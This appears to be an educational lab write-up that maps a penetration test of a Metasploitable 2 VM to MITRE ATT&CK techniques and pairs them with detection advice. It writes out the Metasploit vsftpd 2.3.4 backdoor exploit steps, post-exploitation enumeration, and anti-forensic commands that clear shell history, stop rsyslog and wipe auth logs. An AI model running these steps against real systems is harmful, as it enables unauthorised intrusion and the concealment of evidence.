









# 🗺️ Experiment 8: MITRE ATT&CK Threat Mapping

## Mapping Penetration Testing Activities to the MITRE ATT&CK Framework

---

## 📌 Aim

To conduct a practical penetration test against a target machine — including network scanning, exploitation, and post-exploitation — and systematically map each phase and action to the corresponding techniques and tactics in the **MITRE ATT&CK Enterprise Framework**, demonstrating how real-world attacks align with the ATT&CK knowledge base.

---

## 🧰 Requirements

| Component              | Specification                                         |
| :---------------------- | :---------------------------------------------------- |
| **Attacker Machine**    | Kali Linux (VM or bare-metal)                        |
| **Target Machine**      | Metasploitable 2 (or similar vulnerable VM)          |
| **Virtualization**      | VirtualBox / VMware Workstation                      |
| **Network**             | Host-Only or Internal Network (isolated lab)         |
| **Tools**               | Nmap, Metasploit Framework, msfconsole               |
| **Framework Reference** | MITRE ATT&CK Navigator (https://attack.mitre.org)   |

---

## 📖 Theory

### The MITRE ATT&CK Framework

MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) is a globally recognized, curated knowledge base and model for adversary behavior. It documents the tactics (the "why" — the adversary's objective), techniques (the "how" — the method used to achieve that objective), and procedures (the specific implementation of a technique by a particular threat group or malware) observed in real-world cyberattacks. The Enterprise ATT&CK matrix organizes these into 14 tactical phases: Reconnaissance, Resource Development, Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Lateral Movement, Collection, Command and Control, Exfiltration, and Impact. Each technique is assigned a unique identifier (e.g., **T1046 — Network Service Discovery**), enabling a standardized language for describing adversary actions across the cybersecurity community.

### Why Map Attacks to ATT&CK?

Mapping penetration testing activities to ATT&CK serves multiple critical purposes. For **red teams**, it provides a structured methodology to ensure comprehensive coverage of adversary behaviors and to communicate findings in a standardized format that defenders can immediately act upon. For **blue teams** and SOC analysts, ATT&CK mappings enable gap analysis — identifying which techniques an organization can detect and respond to, and which remain blind spots. Detection engineering teams use ATT&CK technique IDs to write targeted detection rules (SIEM, EDR, SIGMA rules) and measure detection coverage. Threat intelligence teams use ATT&CK to profile threat actors by their preferred techniques, enabling predictive defense. The MITRE ATT&CK Navigator — a web-based tool — allows teams to visualize technique coverage as heatmaps overlaid on the ATT&CK matrix.

### Practical Threat Mapping Methodology

In this experiment, we execute a multi-phase penetration test (reconnaissance → exploitation → post-exploitation) against a vulnerable target and map each action to its ATT&CK technique. The methodology involves: (1) performing the attack action, (2) identifying the tactic and technique it corresponds to, (3) recording the technique ID, (4) documenting indicators of compromise (IOCs) generated, and (5) recommending detection strategies for each mapped technique. This approach transforms a penetration test report from a list of vulnerabilities into a threat-informed assessment that directly supports defensive improvements.

---

## 🔬 Procedure

### Phase 1 — Network Connectivity and Target Identification

#### Step 1 — Verify Network Connectivity

Confirm that the attacker machine can communicate with the target by issuing a ping:

```bash
# Verify connectivity to the target machine
ping -c 4 192.168.56.101
```

> **ATT&CK Mapping:** This initial probing maps to **T1018 — Remote System Discovery** and **T1016 — System Network Configuration Discovery** under the **Discovery** tactic.



---

### Phase 2 — Active Reconnaissance

#### Step 2 — Launch the Metasploit Framework

Start the Metasploit console, which serves as the primary exploitation framework:

```bash
# Launch Metasploit Framework
msfconsole
```

Metasploit initializes its database, loads modules (exploits, payloads, auxiliary scanners), and presents the interactive console.

> **ATT&CK Mapping:** Setting up and using Metasploit corresponds to **T1588.002 — Obtain Capabilities: Tool** under the **Resource Development** tactic.



---

#### Step 3 — Perform Network Service Scanning with Nmap

Execute a comprehensive Nmap scan to enumerate open ports, running services, and operating system details:

```bash
# Comprehensive service and version scan
nmap -sV -sC -O -A 192.168.56.101

# Alternatively, run Nmap from within Metasploit
msf6 > db_nmap -sV -sC -O 192.168.56.101
```

Analyze the scan results to identify:
- Open TCP ports (21/FTP, 22/SSH, 23/Telnet, 80/HTTP, 445/SMB, etc.)
- Service versions (vsftpd 2.3.4, OpenSSH 4.7p1, Apache 2.2.8, Samba 3.x)
- Operating system fingerprint (Linux 2.6.x)

> **ATT&CK Mapping:** Network scanning maps to **T1046 — Network Service Discovery** under the **Discovery** tactic, and **T1595.001 — Active Scanning: Scanning IP Blocks** under **Reconnaissance**.



---

### Phase 3 — Exploitation

#### Step 4 — Select and Configure the Exploit

Based on the Nmap scan results, identify a vulnerable service and load the corresponding exploit module. In this case, we target a known vulnerability:

```bash
# Search for exploits matching the identified service
msf6 > search vsftpd

# Select the exploit module
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# View available options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

Configure the exploit with the target's IP address and other required parameters:

```bash
# Set the target (RHOST)
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.101

# Verify configuration
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

> **ATT&CK Mapping:** Selecting and configuring the exploit corresponds to **T1190 — Exploit Public-Facing Application** under **Initial Access**.



---

#### Step 5 — Execute the Exploit

Launch the exploit against the target:

```bash
# Execute the exploit
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

If successful, a command shell session is established, granting interactive access to the target system. The exploit leverages a malicious backdoor intentionally embedded in vsftpd version 2.3.4 (CVE-2011-2523), which opens a shell on port 6200 when triggered by a `:)` smiley face in the FTP username.

> **ATT&CK Mapping:** Successful exploitation maps to **T1190 — Exploit Public-Facing Application** (Initial Access) and **T1059.004 — Command and Scripting Interpreter: Unix Shell** (Execution).



---

### Phase 4 — Post-Exploitation and Information Gathering

#### Step 6 — Gather System Information

With an active shell, perform post-exploitation reconnaissance to gather system details:

```bash
# Identify current user and privileges
whoami
id

# Gather system information
uname -a
cat /etc/os-release
hostname

# Enumerate network configuration
ifconfig
cat /etc/resolv.conf

# List running processes
ps aux

# Check for SUID binaries (privilege escalation vectors)
find / -perm -u=s -type f 2>/dev/null
```

> **ATT&CK Mapping:** Post-exploitation enumeration maps to multiple Discovery techniques:
> - **T1082 — System Information Discovery**
> - **T1033 — System Owner/User Discovery**
> - **T1016 — System Network Configuration Discovery**
> - **T1057 — Process Discovery**



---

### Phase 5 — MITRE ATT&CK Framework Analysis

#### Step 7 — Explore the ATT&CK Enterprise Matrix

Navigate to [https://attack.mitre.org/matrices/enterprise/](https://attack.mitre.org/matrices/enterprise/) to view the full ATT&CK Enterprise Matrix. Identify the tactics (columns) and techniques (cells) that correspond to the actions performed during this penetration test:

| Tactic Column         | Our Actions                                      |
|:----------------------|:-------------------------------------------------|
| Reconnaissance        | Nmap scanning, service enumeration               |
| Resource Development  | Setting up Metasploit, loading exploit modules    |
| Initial Access        | Exploiting vsftpd backdoor                       |
| Execution             | Executing commands via Unix shell                |
| Discovery             | System info, user enumeration, network recon     |
| Defense Evasion       | Potential log clearing, disabling defenses        |



---

#### Step 8 — Deep-Dive into Specific ATT&CK Techniques

Click on individual techniques in the matrix to explore their detailed documentation. For example, examining **T1046 — Network Service Discovery**:

- **Description:** Adversaries may scan for services running on remote hosts to identify exploitable entry points.
- **Procedure Examples:** Threat groups like APT28, Lazarus Group, and FIN7 use Nmap and custom scanners.
- **Detection:** Monitor for unusual network connections and port scanning patterns via NetFlow or IDS alerts.
- **Data Sources:** Network Traffic: Network Connection Creation, Network Traffic: Network Traffic Flow.

Similarly, review **T1190 — Exploit Public-Facing Application** for the exploitation phase and **T1082 — System Information Discovery** for post-exploitation.



---

#### Step 9 — Analyze Defense Evasion and Impairment Techniques

Review ATT&CK's Defense Evasion tactic (**TA0005**) and the Impair Defenses technique (**T1562**) to understand how adversaries avoid detection:

```bash
# Examples of defense evasion in post-exploitation:

# Clear command history
history -c
export HISTSIZE=0

# Disable logging services
service rsyslog stop

# Clear auth logs
echo "" > /var/log/auth.log

# Modify firewall rules to allow persistence
iptables -A INPUT -p tcp --dport 4444 -j ACCEPT
```

> **ATT&CK Mapping:**
> - **T1562.001 — Impair Defenses: Disable or Modify Tools**
> - **T1070.003 — Indicator Removal: Clear Command History**
> - **T1070.002 — Indicator Removal: Clear Linux or Mac System Logs**

These techniques represent what sophisticated adversaries do after gaining access to maintain stealth. Understanding them is critical for building effective monitoring and alerting.



---

## 📊 Key Observations

| # | Phase                | Action Performed                    | ATT&CK Technique ID | ATT&CK Technique Name                      |
|---|:---------------------|:------------------------------------|:---------------------|:--------------------------------------------|
| 1 | Reconnaissance       | Nmap port/service scan              | T1046                | Network Service Discovery                   |
| 2 | Reconnaissance       | OS fingerprinting                   | T1595.001            | Active Scanning: Scanning IP Blocks         |
| 3 | Resource Development | Loading Metasploit modules          | T1588.002            | Obtain Capabilities: Tool                   |
| 4 | Initial Access       | Exploiting vsftpd 2.3.4 backdoor   | T1190                | Exploit Public-Facing Application           |
| 5 | Execution            | Spawning Unix command shell         | T1059.004            | Command and Scripting Interpreter: Unix Shell|
| 6 | Discovery            | `whoami`, `id` commands             | T1033                | System Owner/User Discovery                 |
| 7 | Discovery            | `uname -a`, `hostname`             | T1082                | System Information Discovery                |
| 8 | Discovery            | `ifconfig`, network enumeration     | T1016                | System Network Configuration Discovery      |
| 9 | Defense Evasion      | Clearing logs and history           | T1070                | Indicator Removal                           |
|10 | Defense Evasion      | Disabling security tools            | T1562.001            | Impair Defenses: Disable or Modify Tools    |

---

## 🗺️ MITRE ATT&CK Mapping — Complete Summary

| Tactic                 | Technique ID  | Technique Name                                  | Our Activity                                   |
|:-----------------------|:--------------|:------------------------------------------------|:-----------------------------------------------|
| **Reconnaissance**     | T1595.001     | Active Scanning: Scanning IP Blocks             | Nmap scan of target IP                         |
| **Reconnaissance**     | T1046         | Network Service Discovery                       | Port and service enumeration                   |
| **Resource Development**| T1588.002    | Obtain Capabilities: Tool                       | Using Metasploit Framework                     |
| **Initial Access**     | T1190         | Exploit Public-Facing Application               | vsftpd 2.3.4 backdoor exploitation            |
| **Execution**          | T1059.004     | Command and Scripting Interpreter: Unix Shell   | Interactive shell commands                     |
| **Discovery**          | T1082         | System Information Discovery                    | OS and host enumeration                        |
| **Discovery**          | T1033         | System Owner/User Discovery                     | User and privilege enumeration                 |
| **Discovery**          | T1016         | System Network Configuration Discovery          | Network interface enumeration                  |
| **Discovery**          | T1057         | Process Discovery                               | Running process listing                        |
| **Defense Evasion**    | T1562.001     | Impair Defenses: Disable or Modify Tools        | Disabling security monitoring                  |
| **Defense Evasion**    | T1070.002     | Indicator Removal: Clear Linux/Mac System Logs  | Clearing authentication logs                   |
| **Defense Evasion**    | T1070.003     | Indicator Removal: Clear Command History        | Clearing bash history                          |

---

## 🛡️ Countermeasures / Defensive Recommendations

| # | ATT&CK Technique     | Detection / Mitigation Strategy                                                                       |
|---|:----------------------|:------------------------------------------------------------------------------------------------------|
| 1 | T1046 (Network Scan)  | Deploy IDS/IPS (Snort, Suricata) with rules for port scan detection; monitor NetFlow for anomalies   |
| 2 | T1190 (Exploitation)  | Patch management — remove/update vsftpd 2.3.4; apply virtual patching via WAF/IPS                    |
| 3 | T1059.004 (Shell)     | Monitor for unexpected shell spawns via auditd; restrict shell access with AppArmor/SELinux          |
| 4 | T1082 (System Info)   | Alert on system enumeration commands in audit logs; implement file integrity monitoring (AIDE)        |
| 5 | T1562 (Impair Defense)| Protect logging infrastructure; ship logs to remote SIEM in real-time; monitor for service stops     |
| 6 | T1070 (Log Clearing)  | Forward logs to immutable storage (WORM); alert on log truncation or service interruption            |
| 7 | **General**           | Implement network segmentation to limit lateral movement post-exploitation                           |
| 8 | **General**           | Enable endpoint detection and response (EDR) for behavioral detection of post-exploitation           |
| 9 | **General**           | Use the ATT&CK Navigator to visualize detection gaps and prioritize SIEM rule development            |

---

## ✅ Result

A complete penetration test was executed against the target machine, encompassing reconnaissance (Nmap scanning), exploitation (vsftpd 2.3.4 backdoor via Metasploit), and post-exploitation (system information gathering). Each action was systematically mapped to the corresponding MITRE ATT&CK technique, producing a comprehensive threat-informed assessment that spans **5 tactics** and **12 techniques** across the ATT&CK Enterprise Matrix.

---

## 📝 Conclusion

This experiment demonstrated the practical application of the MITRE ATT&CK framework as a structured methodology for documenting and categorizing penetration testing activities. By mapping each phase of the attack — from network scanning (T1046) through exploitation (T1190) to post-exploitation discovery (T1082) and defense evasion (T1562) — the assessment produces actionable intelligence that both offensive and defensive teams can leverage. The ATT&CK framework transforms raw penetration testing findings into a standardized, threat-informed report that directly supports detection engineering, gap analysis, and security program maturation. Organizations should integrate ATT&CK mapping into their regular penetration testing and red team assessment workflows to ensure continuous improvement of their detection and response capabilities.

---

> **⚠️ Disclaimer:** This experiment is performed in an isolated lab environment for educational purposes only. Unauthorized access to computer systems is illegal. Always obtain proper authorization before conducting penetration tests.
